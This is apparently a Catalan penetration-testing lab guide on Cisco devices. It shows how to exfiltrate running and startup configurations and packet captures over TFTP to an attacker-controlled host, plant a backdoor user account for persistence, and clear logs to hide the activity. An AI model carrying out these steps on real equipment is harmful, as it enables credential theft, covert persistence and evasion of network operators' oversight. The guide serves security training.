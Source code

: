 ## Fitxers de Configuració de Dispositius  
  
### Arxius Startup-config i Running-config  

--- 

### Obtenció arxiu de configuracions

#### Requisitis  
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Tot i que no es tracta d'una explotació o atac en si, la tecnica d'obtenció d'arxius de configuració pot resultar molt
important a l'hora de dur a terme d'altres atacs o per assolir persistencia en accions de post-explotació. A banda d'aixó
permetrà obtenir informació que potser no s'ha descobert mitjançant l'escaneig del dispositiu, i en general millorarà la
qualitat d'informació de la que disposem d'aquest. Cal notar que per a cada model de dispositiu les comandes poden variar,
així doncs caldrà disposar dels manuals corresponents per aquells dispositius amb els que s'estigui treballant.

#### Comandes a dispositius cisco  
`copy running-config <ftp/tftp>`  
`<servidor_destí/remote_host>`  
`<nom_fitxer>`  

#### Execució  
Una vegada s'ha obtingut accés privilegiat a un dispositiu, es pot trobar tota la configuració d'arrancada al fitxer 
**startup-config** i la configuració actual de funcionament a **running-config**. Existeix una comanda cisco per descarregar
aquesta informació a través de protocols tftp i ftp. Partint de que aquests ja es troben instalats a la màquina atacant,
es procedeix a descarregar-los. El directori per defecte on s'emmagatzemaran és `/srv/ftp` o `/srv/tftp`, i per a que es
pugui descarregar correctament l'arxiu al servidor s'haurà de crear per avançat l'arxiu que s'utilitzarà com a destí.
Addicionalment s'ha de canviar els permisos d'aquests arxius per que es pugui escriure sobre aquests.

`cd /srv/tftp`  
`touch running-config.txt startup-config.txt`  
`chmod 777 running-config.txt`  
`chmod 777 startup-config.txt`  

S'executen les comandes per a copiar els arxius

`copy running-config tftp`  
`192.168.3.2`  
`running-config.txt`  

`copy startup-config tftp`  
`192.168.3.2`  
`startup-config.txt`  

![img.png](img.png)  

Una vegada descarregats i emmagatzemats al directori corresponent es pot analitzar el seu contingut.

![img.png](img.png)  

Rarament resultarà tant senzill, pero d'assolir aquest nivell d'accés es podria dir que es te control gairebe complert 
sobre aquell domini de la xarxa i totes les funcions o serveis que el dispositiu pogués oferir.

---  

### Càrrega d'arxiu de configuracions  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

La descàrrega dels arxius de configuració pot semblar que no afegeix molt de valor ja que ja es disposava d'accés privilegiat 
al dispositiu. Un ús que es pot donar a aquests arxius i que es descriu més endavant a **atacs Synflood** és la càrrega 
d'arxius d'arrencada modificats al dispositiu, de cara a modificar-ne la configuració d'una manera més subtil que no pas
directament sobre la CLI del dispositiu, fet que pot deixar una petjada molt reconeixible en forma de logs.

#### Comandes a dispositius cisco  
`copy <ftp/tftp>: <arxiu> `  
`<servidor_destí/remote_host>`  
`<nom_fitxer_destí>`  

#### Execució    
Una vegada descarregats els arxius de configuració d'un dispositiu, un dels objectius és de disposar de permanencia d'accés
per si es modifiquessin les claus o noms d'usuaris que s'han utilitzat per accedir en primer lloc al dispositiu. Per a fer-ho
s'afegiran credencials a la configuració del dispositiu per a que quan aquest es pugui arribar a reiniciar, que aquestes modificacions
s'apliquin.

Modifiquem l'arxiu corresponent que s'ha descarregat a l'anterior exemple. S'afegeix un usuari i una clau d'accés en la 
forma següent:
> username atacant password 0 persistencia

Carreguem l'arxiu i una vegada carregadt, i per a exemplificar el cas, es realitza un reinici forçat del dispositiu per 
comprobar que la nova configuració inclou les nostres credencials, en el cas real aquest reinici es realitzaria per part
de la víctima en un moment indeterminat.

`copy tftp: startup-config`
`192.168.3.2`
`<enter>`

![img_1.png](img_1.png)

S'intenta accedir al dispositiu amb les credencials per determinar si s'ha realitzat correctament el procediment

![img_2.png](img_2.png)

Ja es disposa de permanencia al dispositiu. Si be aquesta és fàcil de revertir en cas de ser descoberta, caldrà que s'analitzi
al detall l'arxiu de configuració en primer lloc. Addicionalment es pot mirar de netejar els *logs* mitjançant la comanda
`clear log` o `clear logging` per a que no quedi rastre de les accions dutes a terme, tot i que un resgistre de *logs*
buits tambe podria despertar certes sospites.

---  

### Captura de paquets i exportació de fitxer .pcap per al seu anàlisi  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Com amb els anteriors dos exemples, aquesta técnica no es tracta d'un atac sinó d'una eina utilitzada normalment per analitzar
el funcionament d'una xarxa, pero serà de molta ajuda coneixer el seu ús quan es disposi d'una posició MiTM i es vulgui capturar
informació que servirà de cara a altres atacs.

#### Execució    
L'execució d'aquesta técnica és senzilla i pot variar segons els models amb els que s'estigui treballant. En el cas dels
models Cisco que s'han descobert a la xarxa, una vegada s'hagi accedit a aquests, es configuraran per a realitzar tasques
de captures de paquets a emmagatzemar en un buffer que despres es podrà exportar.

Les comandes de configuració per a la captura de paquets sobre una interfície concreta del dispositiu són les següents:

>monitor capture buffer MiTM_PCAP_BUFF size 2048 max-size 1024 circular  
>monitor capture point ip cef MiTM_PCAP_POINT g0/0 both  
>monitor capture point tcp MiTM_PCAP_POINT_TCP both filter ipv4   
>  
>ip access-list extended PCAP  
>permit icmp host 100.64.0.130 any  
>permit icmp any host 100.64.0.130  
>   
>monitor capture point associate MiTM_PCAP_POINT MiTM_PCAP_BUFF  
>monitor capture point associate MiTM_PCAP_POINT_TCP MiTM_PCAP_BUFF  
>   
>monitor capture point start MiTM_PCAP_POINT  
>monitor capture point start MiTM_PCAP_POINT_TCP  

Una vegada s'han capturat paquets, els buffers es poden exportar a un servidor tftp per a ser examinats amb wireshark des de 
la màquina atacant:

> monitor capture buffer MiTM_PCAP_BUFF export tftp://192.168.3.2/capture.pcap  

Informació útil que cercarem entre d'altres són paquets de protocols d'encaminament, credencials en text en clar i d'altres
paquets que puguin millorar el coneixement de la xarxa del que es disposa.  

> **Note**  
> Cal tenir en conte que segons regles de tallafocs o ACL existents és possible que no es pugui realitzar l'exportació.
> Caldrà modificar aquestes de manera temporal per permetre el trànsit de paquets tftp.


